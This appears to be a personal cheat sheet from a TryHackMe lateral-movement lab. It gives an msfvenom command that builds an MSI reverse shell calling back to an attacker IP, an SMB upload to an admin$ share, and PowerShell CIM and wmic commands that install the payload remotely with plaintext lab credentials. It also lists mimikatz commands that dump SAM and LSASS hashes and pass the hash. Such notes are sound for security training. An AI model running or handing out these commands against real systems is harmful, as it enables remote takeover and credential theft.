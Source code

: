 - **Installing MSI package**
  - Steps
    - create reverse shell: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.65.3 LPORT=4445 -f msi > myinstaller.msi  
    - send file: smbclient -c 'put myinstaller.msi' -U USERNAME -W ZA '//thmiis.za.tryhackme.com/admin$/' PASSWORD
    - Create variables with known credentials
    - Execute Invoke-CimMethod    

```
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\MYPAYLOAD.msi"; Options = ""; AllUsers = $false}

#or

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{CommandLine = $Command"}

# Legacy
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
### Other Authentication Methods
- pass the hash
  - mimikatz OR LSASS memory for hashs
  - 
### MIMIKATZ
- Only local user of the machine
- dumping credentials 

```
# mimikatz.exe
privilege::debug ==> Check if we are admin
token::elevate
# for extracting hash from local SAM
lsadump::sam 

# for extracting hash from LSAAS memory
sekurlsa::msv 
    -lsadump::lsa /patch 

# with the hash
token::revert ==> reestablish token privileges ~= runas /netonly
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH_VAlue /run:".exe command"
```  
